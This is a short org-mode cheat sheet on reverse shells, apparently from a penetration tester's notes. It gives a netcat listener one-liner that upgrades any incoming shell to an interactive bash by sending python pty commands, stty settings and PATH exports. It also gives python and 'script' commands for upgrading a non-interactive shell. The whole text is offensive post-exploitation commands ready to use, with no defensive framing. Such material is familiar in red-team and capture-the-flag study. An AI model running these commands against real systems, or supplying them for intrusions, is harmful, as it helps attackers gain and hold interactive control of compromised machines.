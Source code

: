 #+title: Reverse Shells

* Automatically upgrade a shell

By using the following listener any connecting shell will run ~python3~ to get an interactive shell, and it will instantly run ~stty raw -echo~ to make sure arrows and control characters work.

#+begin_src shell
stty raw -echo; (echo 'python3 -c "import pty;pty.spawn(\"/bin/bash\")"';echo pty;echo "stty$(stty -a | awk -F ';' '{print $2 $3}' | head -n 1)";echo export PATH=\$PATH:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/games:/tmp;echo export TERM=xterm-color;echo alias ll='ls -lsaht'; echo clear; echo id;cat) | nc -lvnp 1234 && reset
#+end_src

* Upgrade a non-interactive shell

** Using python

#+begin_src
python3 -c 'import pty; pty.spawn("/bin/bash");'
#+end_src

** Using the script command
#+begin_src
script /dev/null -c bash
#+end_src
